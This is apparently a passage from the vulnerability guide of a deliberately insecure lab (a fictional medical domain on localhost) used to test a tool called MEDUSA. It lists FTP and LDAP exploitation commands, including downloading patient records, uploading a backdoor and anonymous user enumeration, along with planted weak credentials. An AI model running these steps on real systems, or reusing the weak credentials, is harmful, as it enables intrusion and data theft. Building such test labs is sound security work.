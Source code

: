 **Exploitation:**
```bash
ftp localhost 21
# Username: anonymous
# Password: (press enter)

# List files
ls

# Download files
get medical_records/patients.csv

# Upload backdoor
put backdoor.php
```

**MEDUSA Test Cases:**
- Connect anonymously
- Enumerate directory structure
- Download sensitive files
- Upload malicious files

**Impact:** Data exfiltration, malware upload

---

#### 5.2 Weak User Credentials
**Credentials:**
- ftpuser: `ftp123`
- fileadmin: `Files2024!`

**MEDUSA Test Cases:**
- Brute force FTP credentials
- Access user-specific directories

**Impact:** Unauthorized file access

---

### 6. LDAP Server (`ldap-server`)

#### 6.1 Anonymous Bind
**Description:** LDAP allows anonymous binding and enumeration

**Exploitation:**
```bash
# Enumerate users without authentication
ldapsearch -x -H ldap://localhost:389 -b "dc=medcare,dc=local" "(objectClass=person)"
```

**MEDUSA Test Cases:**
- Anonymous LDAP queries
- User enumeration
- Extract user attributes (email, phone, etc.)
